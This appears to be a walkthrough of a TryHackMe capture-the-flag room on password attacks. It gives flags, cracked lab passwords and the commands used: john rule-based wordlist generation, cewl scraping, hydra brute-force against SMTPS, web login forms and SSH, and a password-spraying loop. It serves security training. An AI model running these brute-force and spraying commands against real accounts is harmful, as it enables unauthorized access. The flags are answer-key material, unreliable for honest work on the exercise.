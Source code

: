 ## Task - 6: Offline Attacks - 

**Q: What syntax would you use to create a rule to produce the following: "S[Word]NN  where N is Number and S is a symbol of !@?**

Answer: Az"[0-9][0-9]"^[!@]

## Task - 7: Deploy the VM , just reading 

## Task -8 : Online password attacks

**Q: Can you guess the FTP credentials without brute-forcing? What is the flag?**

Answer: THM{d0abe799f25738ad739c20301aed357b}

Run following command : 
ftp $your_IP
password : anonymous
Hit enter again 
ls (to see files),  and get filename
exit. (you'll have file in current direct flag.txt , cat flag.txt)

**In this question, you need to generate a rule-based dictionary from the wordlist clinic.lst in the**
**previous task. email: pittman@clinic.thmredteam.com against 10.10.126.195:465 (SMTPS)**

**Q: What is the password? Note that the password format is as follows: [symbol][dictionary word][0-9][0-9].**

Answer: !multidisciplinary00

Solution: use this command to generate custom passwrod from this website : cewl -w wordlist.txt -d 8 -m 5 https://clinic.thmredteam.com/
--> nano /etc/john/john.conf
--> add this rule as mentioned in question in john  configuration file : [List.Rule:Myrules] Az"[0-9][0-9]"^[!@]
--> run this command john --wordlist=wordlist.txt --rules=myrules --stdout > dictionary.txt
(john will create rule based new word list following rules mentioned in john and from the wordlist of website : rule-based wordlist now you've)
--> hydra -l pittman@clinic.thmredteam.com -P dictionary.txt smtp://10.10.126.195:465 -v

**Q: Perform a brute-forcing attack against the phillips account for the login page at http://10.10.126.195/login-get using hydra? What is the flag?**

Answer: THM{33c5d4954da881814420f3ba39772644}

Solution: run the coomand : hydra -l phillips -P wordlist.lst 10.10.126.195 http-get-form "/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php" -f
You'll find the password below : 80][http-get-form] host: 10.10.126.195   login: phillips   password: Paracetamol
access the url and you'll have flag

**Q: Perform a rule-based password attack to gain access to the burgess account. Find the flag at the following website: http://10.10.126.195/login-post/. What is the flag?**

**Note: use the clinic.lst dictionary in generating and expanding the wordlist!**

Answer: THM{f8e3750cc0ccbb863f2706a3b2933227}

Solution: john --wordlist=clinic_wordlist.lst --rules=single-extra -stdout > newwordlist.lst ( to generate rule-based wordlist)
To find the password : hydra -l burgess -P newdictionary.lst 10.10.126.195 http-post-form "/login-post/index.php:username=^USER^&password=^PASS^:S=logout.php" -v
Password : OxytocinnicotyxO
Use this password to login onto the link  and have flag.


## Task - 9: Password spray attack 

### The idea is to use different usernames but same password

**Q: Perform a password spraying attack to get access to the SSH://10.10.20.91 server to read /etc/flag. What is the flag?**

Answer: THM{a97a26e86d09388bbea148f4b870277d}

Solution: you can Try the Password hint and Password is Fall2021@ 
you can also create few passwords by this script 
**for year in {2020..2021}; do for char in '@' '#' '$' '%' '^' '&' '*' '(' ')'; do echo "Fall${year}${char}"; done; done > password.txt**
hydra -l usernames.txt -P password.txt ssh://10.10.20.91


### Task - 10: Summary, just reading 
